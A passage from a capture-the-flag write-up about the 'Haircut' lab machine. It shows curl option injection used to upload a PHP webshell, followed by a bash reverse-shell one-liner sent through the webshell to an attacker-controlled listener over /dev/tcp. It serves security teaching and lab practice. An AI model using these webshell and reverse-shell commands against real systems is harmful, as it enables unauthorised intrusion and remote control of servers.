     
    
    root@kali# nc -lknvp 80
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::80
    Ncat: Listening on 0.0.0.0:80
    Ncat: Connection from 10.10.10.24.
    Ncat: Connection from 10.10.10.24:48118.
    GET /test.php HTTP/1.1
    Host: 10.10.14.15
    User-Agent: curl/7.47.0
    Accept: */*
    Cookie: test=test
    

I was successfully able to injection a `curl` option.

### Upload Webshell

Instead of a cookie, I’ll use `-o` to save the file on Haircut. I can save it
into the `uploads` directory and see if it will run as PHP there. When I
submit `http://10.10.14.15/cmd.php -o uploads/0xdf.php`, I only see the status
come back:

![image-20200903165427061](https://0xdfimages.gitlab.io/img/image-20200903165427061.png)

When I check for my shell, it’s there:

    
    
    root@kali# curl http://10.10.10.24/uploads/0xdf.php?cmd=id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

### Shell

To go to a real shell, I’ll start `nc` and send that command to the webshell:

    
    
    root@kali# curl -G http://10.10.10.24/uploads/0xdf.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1'"
    

At a `nc` listener:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.24.
    Ncat: Connection from 10.10.10.24:43828.
    bash: cannot set terminal process group (1225): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@haircut:~/html/uploads$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    